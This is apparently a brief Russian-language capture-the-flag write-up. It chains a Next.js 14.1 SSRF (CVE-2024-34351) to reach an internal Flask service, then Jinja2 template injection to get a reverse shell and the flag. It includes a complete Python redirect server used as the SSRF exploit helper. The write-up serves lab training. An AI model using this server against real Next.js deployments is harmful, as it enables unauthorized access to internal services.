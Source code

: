 #web #ssrf #next-js #python #server-side #ssti #jinja2 

Нас встречают 2 сервиса: один на next js, второй на flask. До сервиса на фласке не достучаться, но сервис на next.js уязвимой к [[SSRF]] версии 14.1 ([[CVE-2024-34351]]). Зовем Олега, поднимаем вот такой сервер:
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

from urllib.parse import urlparse

import json

  

class SimpleHandler(BaseHTTPRequestHandler):

    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()
  

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'https://example.com')
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")
        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=1337):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

Он берет значение из заголовка SSRF и делает на него редирект. Указываем в качестве адреса [[0.0.0.0]] и порт 3000, попадаем на закрытый сервис. Там нас вcтречает стандартный [[SSTI]] на [[jinja2]]. Делаем пейлоад, получаем ревшелл, читаем флаг.